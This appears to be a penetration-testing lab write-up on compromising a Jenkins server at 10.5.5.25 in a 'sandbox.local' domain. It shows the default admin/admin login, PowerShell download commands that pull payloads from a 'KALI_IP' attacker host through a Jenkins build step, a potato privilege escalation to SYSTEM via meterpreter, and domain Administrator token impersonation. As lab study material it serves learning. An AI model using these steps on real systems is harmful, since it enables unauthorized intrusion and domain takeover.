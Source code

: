 # Cevapi (10.5.5.25)
***
## Enumeration
1. During our post-exploitation enumeration on **Poultry**, we noticed an HTTP server running on port **8080** of `10.5.5.25`. We opened it on our browser and we are presented with a Jenkins login page.
![[cevapi-jenkins.png]]
> [!important] 
> To access the app, you need to setup your browser to use SOCKS proxy using the following configuration
> `Proxy type: SOCKS4`, 
> `IP: 127.0.1.1`, 
> `Port: 1080`

2. After sometime poking the page, we discovered the following login credentials
```
Username: admin   
Password: admin
```

***
## Exploitation
1. After logging into Jenkins, we noticed that our current user is able to create and modify projects. So we went ahead on creating projects and used the `Build` option to execute OS commands.

> [!info] 
>  You may follow this article on how to create [Jenkins Freestyle Project](https://www.guru99.com/create-builds-jenkins-freestyle-project.html)

2. We added a build step `Execute batch command` which allows us to run mutiple commands at a time. First, we execute commands that will prepare our working environment.
```
mkdir c:\Users\Public\exploit
cd c:\Users\Public\exploit
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://KALI_IP/whoami.exe','whoami.exe')
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://KALI_IP/potato.exe','potato.exe')
```
> [!info] 
>  The above commands creates our working directory named `exploit` and downloaded our payloads within that directory.
>  We used the same payload (`whoami.exe`) when exploiting **Poultry**

![[cevapi-build1.png]]

> [!info] 
>  OS commands (injected into projects `Build`) are executed using the the `Build Now` button on the project dashboard.
![[cevapi-buildnow.png]]

3. We then started a meterpreter listener on port **80**

![[cevapi-start-listener.png]]

4. Since our setup were ready, we executed the exploit and received a connection on our meterpreter in the context of `NT AUTHORITY\SYSTEM` user. 
```
cd c:\Users\Public\exploit
potato.exe -t t -p whoami.exe -l 5833
```
![[cevapi-build3.png]]
![[cevapi-meterpreter-system.png]]

***

## Post-exploitation

1. Earlier, we discovered that **Cevapi** is, in fact, joined to the `sandbox.local` domain. So we checked if any domain accounts are logged in for us to impersonate their tokens.
![[cevapi-sandbox-admin.png]]
It appears that the `sandbox.local` administrator user is logged into Cevapi.

2. We used the `impersonate_token` command and specify the Administrator user.
```
impersonate_token sandbox\\Administrator
```
![[cevapi-impersonate.png]]

We've successfully impersonated `sandbox.local` Administrator.